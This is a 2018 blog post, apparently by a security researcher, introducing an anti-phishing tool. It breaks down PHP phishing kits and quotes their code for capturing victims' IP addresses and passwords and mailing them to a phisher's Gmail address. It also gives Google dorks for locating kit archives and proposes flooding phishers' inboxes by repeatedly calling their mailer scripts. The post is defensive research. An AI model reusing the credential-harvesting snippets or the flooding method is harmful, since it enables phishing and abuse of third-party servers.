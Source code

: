 ```yaml
---
layout: post
title: ActiveAntiPhish - Protecting Stolen Credentails Using Saturation
author: Chad Baxter
date: 2018-06-16
tags: ["phishing", "databases", "security", "phishkits"]
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact link in the email is a link to the phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](phishtank.com). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](phishtank.com) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated guesses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site with the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their presence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://www.github.com/LogoiLab/ActiveAntiPhish/master/rules/).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You can find the repo [HERE](https://www.github.com/LogoiLab/ActiveAntiPhish).
